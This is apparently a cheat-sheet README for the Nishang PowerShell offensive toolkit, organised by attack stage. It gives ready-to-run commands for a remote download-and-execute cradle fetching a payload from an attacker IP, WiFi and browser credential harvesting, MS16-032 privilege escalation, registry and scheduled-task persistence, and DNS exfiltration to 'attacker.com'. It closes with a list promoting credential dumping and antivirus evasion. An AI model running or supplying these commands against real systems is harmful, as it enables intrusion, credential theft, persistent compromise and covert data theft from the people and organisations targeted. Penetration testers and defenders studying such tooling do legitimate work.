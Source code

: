 ### Payload Delivery
- **Description:** Downloads and executes scripts and binaries remotely using PowerShell.
- **Usage:**
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<attacker-ip>/payload.ps1')
```

### Credential Harvesting
- **Description:** Harvests stored credentials from the system, including WiFi credentials, browser passwords, and more.
- **Usage:**
```powershell
.\Gather\Invoke-WiFiCredentials.ps1
```

### Privilege Escalation
- **Description:** Exploits known vulnerabilities to escalate privileges on the compromised system.
- **Usage:**
```powershell
.\Escalation\Invoke-MS16-032.ps1
```

### Persistence Mechanisms
- **Description:** Establishes persistence on a compromised system through scheduled tasks, registry modifications, and more.
- **Usage:**
```powershell
.\Persistence\Invoke-Persistence.ps1 -Registry -Daily -At 9am
```

### Data Exfiltration
- **Description:** Exfiltrates data over different protocols like HTTP, DNS, etc., to avoid detection and bypass network monitoring.
- **Usage:**
```powershell
.\Exfiltration\Invoke-DNSExfiltrator.ps1 -Data 'SensitiveData' -Domain 'attacker.com'
```

## Tools for Offensive Security Using Nishang

- **Remote Command Execution:** Use Nishang to execute remote commands and payloads for initial access and post-exploitation.
- **Credential Dumping and Harvesting:** Extract stored credentials and sensitive information from compromised systems to gain further access.
- **Privilege Escalation:** Identify and exploit privilege escalation opportunities to elevate access and control within a network.
- **Persistence:** Establish persistent access to compromised systems to maintain long-term control and continue operations.
- **Data Exfiltration:** Exfiltrate sensitive data through covert channels to avoid detection by network monitoring tools.
- **Antivirus Evasion:** Use PowerShell obfuscation techniques and fileless payloads to bypass antivirus and endpoint detection systems.
